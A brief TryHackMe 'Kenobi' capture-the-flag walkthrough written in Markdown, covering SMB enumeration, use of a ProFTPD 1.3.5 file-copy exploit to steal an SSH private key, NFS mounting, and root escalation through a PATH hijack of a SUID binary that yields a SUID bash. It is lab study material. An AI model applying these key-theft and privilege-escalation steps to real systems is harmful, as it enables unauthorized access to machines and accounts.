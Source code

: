 ```yaml
---
title: Kenobi WalkThrough
permalink: /kenobi
layout: page
tags: TryHackMe
---
```

# Anonymouos
# ![front](/images/kenobi/front.png)
[https://tryhackme.com/room/kenobi](https://tryhackme.com/room/kenobi)
<img src="/images/kenobi/img.gif" height="90px">

## Open Ports:
![PORTS](/images/kenobi/ports.png)

## Gaining Access:
1. Enumerating `SMB` using nmap script
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse ip
```
	2. Found Anonymous login in smb
	2. smbclinet //<ip>/Anonymous
1. Via ProFTPD 1.3.5
	2. Found exploitdb copy
	2. https://www.exploit-db.com/exploits/36742 (copying id_rsa to var/tmp)
1. Mounting the /var/tmp to out pc
	2. Make mount dir
	2. Mkdir /mnt/kenobi
	2. Mount ip:/var/tmp /mnt/kenobi
1. now copy the shh key from var/tmp to ur desktop
	2. Change permission
	2. Chmod  600 key
1. Connect via ssh
	```
	Ssh -i key kenobi@ip
	```

### User Flag:
![flag](/images/kenobi/flag.png)

## Priviledge Escalation:
1. Looking into SUID bit
Ø Find / -perm -u=s 2> /dev/null <br>
	○ Found menu<br>
	○ Strings menu<br>
		§ Found the no path was specified for curl command <br>
2. Now <br>
Ø Echo 'cp /bin/bash /tmp/bash;chmod +s /tmp/bash' > curl<br>
Ø Chmod 777 curl<br>
Ø Export PATH=/tmp:$PATH<br>
Ø /usr/bin/menu and press 1<br>
Ø Bash -p<br>

### Root Flag:
![root](/images/kenobi/root.png)